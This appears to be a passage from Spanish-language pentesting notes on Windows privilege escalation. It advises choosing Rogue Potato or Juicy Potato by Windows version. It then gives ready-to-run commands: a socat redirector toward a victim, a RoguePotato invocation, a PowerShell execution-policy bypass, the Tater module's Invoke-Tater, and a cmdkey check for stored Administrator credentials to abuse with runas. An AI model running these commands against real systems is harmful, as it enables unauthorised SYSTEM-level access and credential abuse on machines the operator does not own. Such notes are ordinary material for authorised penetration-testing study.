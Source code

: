 Siga este consejo:

-   Si la máquina es >= Windows 10 1809 y Windows Server 2019 - Pruebe **Rogue Potato**
    
-   Si la máquina es < Windows 10 1809 < Windows Server 2019 - Pruebe **Juicy Potato**

[Rogue Potato Github](https://github.com/antonioCoco/RoguePotato)

PoC:

Maquina KALI

Ejecute en su máquina la redirección socat (reemplazar `VICTIM_IP`):

```bash
socat tcp-listen:135,reuseaddr,fork tcp:VICTIM_IP:9999
```

Ejecute PoC (reemplace `YOUR_IP`y `command`):

```bash
.\RoguePotato.exe -r YOUR_IP -e "command" -l 9999
```

Fuente: [Potatoes](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)

Existe una implementacion de Hot Potato para powershell [tater](https://github.com/Kevin-Robertson/Tater):

bypass del execution policy:

```bash
powershell.exe -nop -ep bypass
```

importar script:

```bash
Import-Module Tater.ps1
```

ejecucion de comandos:

```bash
Invoke-Tater -Trigger 1 -Command "comando"
```

## Runas

Es posible que un usuario (justo el administrador) tenga las credenciales almacenadas en el sistema operativo, esto lo podemos comprobar con:

```bash
cmdkey /list


#OUTPUT

Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```
